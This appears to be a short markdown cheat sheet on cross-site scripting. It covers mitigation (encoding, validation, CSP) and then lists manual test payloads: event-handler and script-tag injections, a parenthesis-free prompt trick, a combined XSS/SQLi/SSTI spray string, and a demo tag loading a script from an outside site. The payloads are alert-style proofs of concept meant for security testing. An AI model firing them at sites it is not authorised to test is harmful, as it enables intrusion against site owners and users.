 # XSS
* XSS can do anything a logged in user can do.

* You fix XSS by fixing the output or input:
	* Output - Encode data to make it safe:
	* Input - Validation, Whitelists
* Secondarily, you protect with a Content Security Policy (CSP), which is an HTTP Header

## Testing
```html

Here's a small #XSS list for manual testing (main cases, high success rate).

"><img src onerror=alert(1)>
"autofocus onfocus=alert(1)//
</script><script>alert(1)</script>
'-alert(1)-'
\'-alert(1)//
javascript:alert(1)

Try it on:
- URL query, fragment & path;
- all input fields.

------------

A payload without any parenthesis after "prompt":

​```Object.defineProperty(window, 'p', { get: prompt });p;```

By using a Getter, we invoke the prompt without any input. This should display a prompt box in which the payload can be entered. 

------------

JS:          <script>alert('Honk');</script>
SVG:         <svg onload=prompt(/svg/) />
IMG SRC:     <img src="alert('img src')" />
IMG ONERROR: <img src="error" onerror="alert('img error')" />

http://example.com/index.php?user=<script>alert(123)</script>
```



### Quick manual spray of an application input
```html
'"><svg/onload=alert()>{{9*74}}
```
This provides indicators of basic SQLi, XSS and SSTI vulnerabilities. Always remember to rest for SSTI (Server-Side Template Injection). Test for it the same way you would for XSS. A few simple payloads like ```{{7*7}}``` and if they get replaced by '49' then you've just found a high/critical vulnerability. You need to get a PoC though!


https://github.com/payloadbox/xss-payload-list



## Demo: Harlem Shake

```html
<script defer src="https://rafaelhart.com/shake.js"></script>
```

